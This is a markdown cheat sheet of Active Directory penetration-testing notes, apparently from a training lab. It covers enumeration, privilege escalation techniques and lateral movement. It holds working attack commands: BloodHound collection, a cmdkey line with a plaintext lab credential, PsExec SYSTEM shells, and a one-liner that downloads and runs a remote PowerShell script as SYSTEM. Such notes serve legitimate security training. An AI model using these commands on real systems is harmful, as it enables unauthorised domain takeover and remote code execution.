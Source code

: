 ### Enumeration - Tools
* Powershell - see PS doc🔗
* Group Policy Result Tool - `gpresult /R`
* net.exe - `net user /domain` , `net view /domain`, `net accounts /domain`, `net share`
* whoami - `whoami /priv`, `whoami /groups`
* BloodHound - Import and display domain info ingested by SharpHound (ps1 or exe) - generates zip file.
  * NB On Kali, start neo4j as `neo4j console`. Service fails to start with `neo4j start` (also on windows as non-admin)
  * `. .\SharpHound.ps1` then `Invoke-BloodHound -CollectionMethod All` and `Invoke-BloodHound -CollectionMethod LoggedOn` then import zip files
 
<hr/>

## Privilege Escalation
* Hunting for Local Admin access on other machines
* Hunting for high privilege domain accounts (like Domain Administrators)
* Local Privilege Escalation
  * Missing patches
  * Automated deployment and AutoLogon passwords in clear text
  * AlwaysInstallElevated (Any user can run MSI as SYSTEM)
  * Misconfigured Services
  * DLL Hijacking

### Privilege Escalation - Tools
* PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
* BeRoot: https://github.com/AlessandroZ/BeRoot
* Privesc: https://github.com/enjoiz/Privesc

<hr/>

## Lateral Movement
* PowerShell Remoting - see PS doc [🔗](AD_Powershell.md)
  *  WSMan uses TCP 5985 (HTTP) and 5986 (HTTPS)
* PsExec
  * `cmdkey /add:172.16.3.11 /user:dcorp-ci\hack /pass:potatoPOTATO3$` Set up authentication
  * `.\PsExec64.exe -accepteula \\172.16.3.11  cmd.exe /c whoami` Test PsExec
  * `.\PsExec64.exe -accepteula \\172.16.3.11 -s cmd.exe` Launch SYSTEM cmd
  * `.\PsExec64.exe -accepteula \\172.16.3.11 -s powershell -c 'iex(iwr -UseBasicParsing http://172.16.99.32/callme.ps1)'` Invoke PS as SYSTEM

<hr/>

## Kerberos
